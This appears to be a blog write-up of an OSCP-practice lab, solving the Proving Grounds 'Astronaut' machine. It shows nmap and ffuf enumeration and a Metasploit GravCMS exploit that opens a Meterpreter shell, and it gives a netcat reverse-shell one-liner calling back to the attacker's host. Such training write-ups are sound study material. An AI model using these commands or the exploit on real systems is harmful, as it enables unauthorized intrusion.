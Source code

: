 ```yaml
---
date: '2024-09-28'
before : '2024-09-23'
after : '2024-10-04'
title: 'OSCP Prep: Proving Grounds : Astronaut'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Astronaut machine from Proving Grounds'
thumbnail: '../contentImages/astronaut/1.png'
---
```


## 1. Recon

- nmap scan
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p- -T4
[sudo] password for hosan:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:00 EDT
Nmap scan report for 192.168.216.12
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds

```
Nothing speical, only http service
- port 80 (http)
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p80 -sC -sV -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:01 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.216.12
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.7 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: 127.0.0.1

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.28 ms 192.168.45.1
2   26.00 ms 192.168.45.254
3   26.39 ms 192.168.251.1
4   26.54 ms 192.168.216.12

```
Okay. Nothing special either.

## 2. Enumeration / Initial Foothold.

Visited http://192.168.216.12/grav-admin:
![image](../contentImages/astronaut/1.png)

Hmm Grav. I've never heard of it.

- robots.txt
![image](../contentImages/astronaut/4.png)

Since no DNS services or hostname provided, subdomain/vhost enumeration is not possible.
While enumerating the subdirectories, quick search for CVE:

```

┌──(hosan㉿kali)-[~]
└─$ searchsploit grav
BitDefender GravityZone 5.1.5.386 - Multiple Vulnerabilities                                                                                                                                              | linux/webapps/34086.txt
Cobian Backup 11 Gravity 11.2.0.582 - 'Password' Denial of Service (PoC)                                                                                                                                  | windows/local/50790.py
Cobian Backup Gravity 11.2.0.582 - 'CobianBackup11' Unquoted Service Path                                                                                                                                 | windows/local/50791.txt
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                                                                        | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                                                                        | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                                                                   | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                                                                        | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                                                                        | php/webapps/49788.rb
```
So there is a metasploit module, always worth trying it.

I basically tuned some options for exploit to fit our target, but it dropped a shell.
```

msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.216.12
RHOSTS => 192.168.216.12
msf6 exploit(linux/http/gravcms_exec) > set LHOST 192.168.45.154
LHOST => 192.168.45.154
msf6 exploit(linux/http/gravcms_exec) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin
TARGETURI => /grav-admin
msf6 exploit(linux/http/gravcms_exec) > exploit

[*] Started reverse TCP handler on 192.168.45.154:80
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.216.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.154:80 -> 192.168.216.12:51198) at 2024-09-14 13:14:03 -0400

meterpreter > shell
Process 55058 created.
Channel 0 created.
whoami
www-data
```
And the subdirectory enumeration didn't give me anything meaningful:

```

┌──(hosan㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://192.168.216.12/grav-admin/FUZZ -e .txt
________________________________________________

images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 103ms]
cache                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 106ms]
tmp                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 31ms]
login.txt               [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 497ms]
login                   [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 495ms]
admin.txt               [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 554ms]
bin                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 68ms]
user                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 77ms]
admin                   [Status: 200, Size: 15508, Words: 4330, Lines: 139, Duration: 852ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 92ms]
backup                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 76ms]
home.txt                [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 288ms]
home                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 313ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 77ms]
.xml                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 258ms]
system                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 58ms]
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 341ms]
forgot_password.txt     [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 344ms]
.rss                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 311ms]
vendor                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 66ms]
user_profile            [Status: 200, Size: 13974, Words: 3067, Lines: 190, Duration: 387ms]
activate_user           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
activate_user.txt       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 312ms]

```

Since this shell is instable as hell, I quickly created a revshell with:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.241 443 >/tmp/f
```

## 3. PrivEsc

I found that sudo version is 1.8.31.
The first things I do during privesc is: sudo -l, kernel exploit, sudo exploit and suid, sgid binaries.

Next thing:

![image](../contentImages/astronaut/5.png)

And we got:

![image](../contentImages/astronaut/6.png)

So maybe:

![image](../contentImages/astronaut/7.png)

Done

New things learned: look into suid binaries and gtfobins more carefully, what does "it doesn't drop the privielged shell" means? Does it mean that the binary is completely useless?

- hint : think about SUID context.

---
## Source

- Proving Grounds
- Me!